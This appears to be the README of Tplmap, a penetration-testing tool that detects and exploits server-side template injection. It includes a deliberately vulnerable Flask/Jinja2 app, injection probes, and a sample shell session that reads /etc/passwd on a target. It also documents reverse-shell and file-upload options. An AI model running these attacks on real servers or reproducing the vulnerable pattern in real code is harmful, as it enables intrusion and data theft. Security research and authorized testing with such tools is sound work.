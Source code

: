 Tplmap
======

Tplmap assists the exploitation of Code Injection and Server-Side Template Injection vulnerabilities with a number of sandbox escape techniques to get access to the underlying operating system.

The tool and its test suite are developed to research the SSTI vulnerability class and to be used as offensive security tool during web application penetration tests.

The sandbox break-out techniques came from James Kett's [Server-Side Template Injection: RCE For The Modern Web App][10] and other public researches [\[1\]][1] [\[2\]][2] and original works to extend this tool capabilities [\[3\]][3] [\[4\]][4].

It fully compromises the server exploiting several code context and blind injection scenarios. It also supports _eval()_-like code injections in Python, Ruby, PHP, Java and generic unsandboxed template engines.

Server-Side Template Injection
------------------------------

Assume that you are auditing a web site that generates dynamic pages using templates composed with user-provided values, such as this web application written in Python and [Flask][12] that uses [Jinja2][11] template engine in an unsafe way.

```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')
    
    # SSTI VULNERABILITY
    # The vulnerability is introduced concatenating the
    # user-provided `name` variable to the template string.
    output = Jinja2.from_string('Hello ' + name + '!').render()
    
    # Instead, the variable should be passed to the template context.
    # Jinja2.from_string('Hello {{name}}!').render(name = name)

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

From a black box testing perspective, the page reflects the value similarly to a XSS vulnerability, but also computes basic operation at runtime disclosing its SSTI nature.

```
$ curl -g 'http://www.target.com/page?name=John'
Hello John!
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

Exploitation
------------

Tplmap is able to detect and exploit SSTI in a range of template engines to get access to the underlying file system and operating system. Run it against the URL to test if the parameters are vulnerable.

```
$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell                Run shell on the target
    --os-cmd                  Execute shell commands
    --bind-shell PORT         Connect to a shell bind to a target port
    --reverse-shell HOST PORT Send a shell back to the attacker's port
    --upload LOCAL REMOTE     Upload files to the server
    --download REMOTE LOCAL   Download remote files
```

Use `--os-shell` option to launch a pseudo-terminal on the target.

```
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Supported template engines
--------------------------

Tplmap supports over 15 template engines, unsandboxed template engines and generic _eval()_-like injections.

| Template engine        | Remote Command Execution |  Blind | Code evaluation | File read | File write |
|------------------------|-------|-------------------|-----------------|-----------|------------|
| Mako                   | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Jinja2                 | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Python (code eval)     | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Tornado                | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Nunjucks               | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Jade                   | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| doT                    | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Marko                  | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| JavaScript (code eval) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Dust (<= dustjs-helpers@1.5.0) | ✓ |  ✓        | JavaScript      |  ✓        |  ✓         |
| EJS                    | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Ruby (code eval)       | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| Slim                   | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| ERB                    | ✓ |  ✓                | Ruby            |  ✓        |  ✓         |
| Smarty (unsecured)     | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| PHP (code eval)        | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Freemarker             | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Velocity               | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Twig                   | × | ×                 | ×               | ×         | ×          |
| Smarty (secured)       | × | ×                 | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0) | × | ×          | ×               | ×         | ×          |


Burp Suite Plugin
-----------------

Tplmap is able to run as a Burp Suite Extension.

### Install

Load burp_extension.py with following conditions.

* Burp Suite edition: Professional
* The Python modules required for tplmap is installed.
  * PyYaml
  * requests
* Extension type: Python

### Scan

Configure scanning option from 'tplmap' tab, and do an active scan.

[10]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[11]: http://jinja.pocoo.org/
[12]: http://flask.pocoo.org/
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
